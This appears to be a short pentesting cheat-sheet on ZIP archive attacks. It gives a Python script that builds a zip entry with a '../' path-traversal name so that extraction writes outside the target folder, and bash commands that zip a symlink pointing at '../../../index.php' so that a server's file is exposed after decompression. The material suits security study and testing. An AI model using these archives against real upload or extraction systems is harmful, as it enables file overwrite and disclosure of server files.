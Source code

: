 ZIP
===

## Exploit Path Traversal on decompress

Some programs do not check the zip path while extracting the archive.
Then it's possible to exploit this to extract a file to a custom location.

```python
import os
import zipfile

def zip(dst):
  zf = zipfile.ZipFile('%s.zip' % dst, 'w', zipfile.ZIP_DEFLATED)
  zf.writestr('../../../../../../../tmp/test.txt', 'toto')

if __name__ == '__main__':
    zip('test')
```


## Symlink

Upload a link containing a symlink to an other file to access the remote file
after the decompression:

```bash
ln -s ../../../index.php test.txt
zip --symlinks test.zip test.txt
```
